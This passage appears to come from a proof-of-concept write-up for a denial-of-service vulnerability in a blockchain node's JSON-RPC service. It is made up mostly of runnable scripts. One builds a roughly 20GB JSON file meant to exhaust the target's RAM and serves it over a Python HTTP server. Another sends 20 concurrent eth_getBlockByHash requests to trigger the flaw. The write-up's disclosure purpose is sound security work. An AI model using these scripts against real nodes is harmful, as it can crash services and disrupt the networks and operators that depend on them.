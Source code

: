 ```

echo "All done, exploit validator should be starting up!"
```

### Exploit file and server setup
Preferably, on a separate workstation or VM, prepare and run the exploit server and exploit file:
```
#!/bin/bash

# Create a large JSON file. The file size should be more than the amount of available RAM on the target system. This script will create approx 20GB JSON file.
echo 'Creating huge.json'
echo '[' > huge.json

for i in {1..10000000}; do
    echo '{"TESTTESTTESTTESTESTTEST":"TESTTESTTESTTESTTESTTEST"},' >> temp.json;
done

for i in {1..40}; do
    cat temp.json >> huge.json
done

rm temp.json

echo ']' >> huge.json

echo 'DONE'
```

Serve the JSON file with a simple Python server:
```
python3 -m http.server 8000
```


### Exploit trigger
Once the epxloit node is synced to the network, run the exploit proof-of-concept script to trigger the vulnerability. Remember to setup your JSON-RPC address in the script below:

```
#!/bin/bash

# This script will just curls the JSON-RPC endpoint 20 times and passes all output to /dev/null
# Modify the script to accomodate the JSON-RPC service address

JSON_RPC_ADDR='http://192.168.0.10:8080'

for i in {1..20}; do
    curl -i -X POST $JSON_RPC_ADDR -H 'Content-Type: application/json' --data '{"jsonrpc":"2.0","method":"eth_getBlockByHash","params":["0x58407531dc8899e79c8c80d7cb886349ededc3f03b2730a5d20ff6fcc7199e3d"],"id":1}' 2&>1 /dev/null &
done    
```
